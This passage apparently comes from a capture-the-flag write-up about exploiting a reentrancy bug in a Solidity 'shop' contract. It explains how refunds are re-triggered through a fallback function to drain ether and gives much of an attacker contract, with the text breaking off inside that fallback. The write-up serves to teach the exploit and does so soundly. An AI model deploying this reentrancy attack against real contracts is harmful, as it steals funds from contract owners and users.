 As you can see, we initialized an attacker contract with the address of `shop`. Then we use 5 ether to start the attack function. When we get refunded, the fallback function receive will ask for another refund. In the above example, we were able to steal 105 ether from the shop. (Make sure to give the shop ether before running the attack or else there is no money to steal). Finally, we can use `sendFunds` to give the 105 ether back to our wallet.

Ok, we can steal the shops money, now we just need to do it on the remote server :yum:

#### Implementation

Since javascript is a garbage language, I decided to switch to python and use the `web3` and `solcx` libraries. It was mostly read reading through a lot of documentation, stack overflow, and chatgpt, so I won't go into detail there but eventually I got the script to work. We connect to the network, compile our attacker script, deploy an attacker contract, run the attack function, send ether back to our wallet, and finally buy the `1337` item:

`attacker.sol`:

```sol
pragma solidity ^0.6.0;

// define what functions from shop we will use
interface Shop {
    function buy(uint256 item, uint256 quantity) external payable;
    function refund(uint256 item, uint256 quantity) external;
}

contract Attacker {
    address payable owner;
    Shop public shop;
    uint public val;
    uint public val2;
    bool public speed;

    constructor(address _victim) public payable {
        shop = Shop(_victim);
        val = 5 ether; // start attack with 5 ether
        val2 = 50 ether; // speed up attack after we stole enough ether
        owner = payable(msg.sender);
        speed = false;
    }

    function attack() public payable {
        require(msg.value >= val, "gimme more monnies");
        // Perform the buy operation with value
        
        // sped up attack
        if (msg.value > val2){
            (bool successBuy, ) = address(shop).call.value(val)(abi.encodeWithSignature("buy(uint256,uint256)", 0, 10));
            shop.refund(0, 10);
            speed = true;
        }
        // initial attack
        else {
            (bool successBuy, ) = address(shop).call.value(val)(abi.encodeWithSignature("buy(uint256,uint256)", 0, 1));
            shop.refund(0, 1);
        }
    }
    
    /*
        Fallback function
    */
    receive() external payable {
        /*
```